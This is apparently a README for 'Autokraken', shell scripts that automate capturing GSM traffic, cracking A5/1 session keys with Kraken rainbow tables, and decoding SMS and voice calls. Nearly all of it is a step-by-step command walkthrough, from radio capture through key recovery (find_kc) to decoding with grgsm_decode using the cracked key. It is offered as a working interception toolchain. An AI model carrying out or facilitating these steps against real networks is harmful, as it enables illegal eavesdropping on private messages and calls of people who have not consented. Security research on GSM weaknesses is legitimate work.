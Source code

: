 # Autokraken

_Warning: those are currently dirty drafts.  It works for us but would need to be heavily reviewed to work any other platform._

A set of scripts to automate the cracking of captured GSM/G2 network traffic with Kraken, and to extract SMS and voice calls out of it.  This is not frequency hopping capable.

## Requirements

Few command line utilities

        which sed
        which awk
        which grep
        which cut
        which wc

Few packages for stage 1

        apt install python3 tcpdump tshark gr-gsm -y

Optionally `gsmframedecoder` when dealing with SI5,6 instead of idling frames, but then you would also need the legacy Airprobe code to get the HEX version of the bursts

And of course Kraken with ready to serve rainbow table indexes

## Introduction

You can separate stages 0,1 and 2,3 for resp. capturing and cracking.  Simply send the bitstring file from the former to the latter and proceed.

## Stage 0 - capture and get the cfile(s) ready

	arfcn=

        cd /root/KRAKEN/autokraken/stage0/
	./capture.bash $arfcn

## Stage 1 - define known plain-text frame

_requires GR-GSM and a cfile_

Extract broadcast control channel

        cd /root/KRAKEN/autokraken/stage1/
	./json0C $arfcn

and find out about the SDCCH timeslot and subchannel to track

	#./parse.py 0C $cfile.0C.json
	./grabIA $arfcn

	slot=
	sub=

Extract dedicated control channel and look for idling frames around the Ciphering Mode Command.  It is necessary here to specify the subchannel so we won't get any irrelevant frames and bitstrings to crack later-on.

	echo $arfcn $slot $sub
	./jsonXS $arfcn $slot $sub

If you don't find the CMC it might be because there's hopping going on.  Look closer at the IA and hopping friends in SI1.

Check that's A5/1 we've got here and not A5/3.

Now seek for idling frames around the Ciphering Mode Command

	#./parse.py XS $cfile.${slot}S.json
	./grabCMC $arfcn $slot $sub

	plainframe=

Also have a look at Timing Advance in case it is not `x00` already.

Eventually send the bitstring file to the Kraken server.

	scp ~/capture/$arfcn.cfile.${slot}S kraken:/root/capture/

## Stage 2 - define the cipher-text frames

_requires Kraken and the bitstring file_

	screen -S KRAKEN
	cd /root/KRAKEN/autokraken/stage2/
	string=/root/capture/$arfcn.cfile.${slot}S
	echo $plainframe

Tune your path against Kraken and Utilities

        vi feedcrack.conf

	kraken=/root/KRAKEN/kraken

XOR plain bitstrings with cipher bitstrings

	#./getemptyframeplain $cfile.${slot}S $plainframe
	#./getemptyframecipher $cfile.${slot}S $plainframe
	./feedemptyframe $string $plainframe
	ls -lhF /root/capture/$arfcn.cfile.1S.*.emptyframe*

Feed those into Kraken interactivelty

	ls -lhF /dev/sdb2
	ls -lhF /root/KRAKEN/kraken/indexes/
	head /root/capture/$arfcn.cfile.${slot}S.$plainframe.emptyframe234

	cd /root/KRAKEN/kraken/Kraken/
	./kraken ../indexes

	crack <xored bitstring>

## Stage 2 semi-automated

        cd /root/KRAKEN/kraken/Kraken/
        ./kraken ../indexes < /root/capture/$arfcn.cfile.${slot}S.$plainframe.emptyframe234

## Stage 2 automated

	./crack $cfile.${slot}S $plainframe

## Stage 3 - verify the key

Tune the hardcoded path against Utilities

	cd /root/KRAKEN/autokraken/stage3/
	vi feedkc

	utilspath=/root/KRAKEN/kraken/Utilities

reach back to the previous frame number and xored bitstring to feed the key check

	./feedkc <xored bitstring> /root/capture/$arfcn.cfile.1S.$plainframe.emptyframe1234

COPY/PASTE THE KEY AND @ E.G.

	/root/KRAKEN/kraken/Utilities/find_kc <FOUND KEY> <BITOPS> <BURST FRAME NUMBER> <PREV BURST FRAME NUMBER> <PREV BURST XORED BITSTRING>

## Conclusion

You can now sniff into the ciphered text

	grgsm_decode --cfile=$cfile --arfcn=$arfcn --mode=SDCCH8 --timeslot=$slot --subslot=$sub \
		--a5=1 --kc=KEY-HERE

## Resources

GSM Cracking: SMS w/ Kraken – Software Defined Radio Series #16
https://www.crazydanishhacker.com/gsm-cracking-sms-kraken-software-defined-radio-series-16/

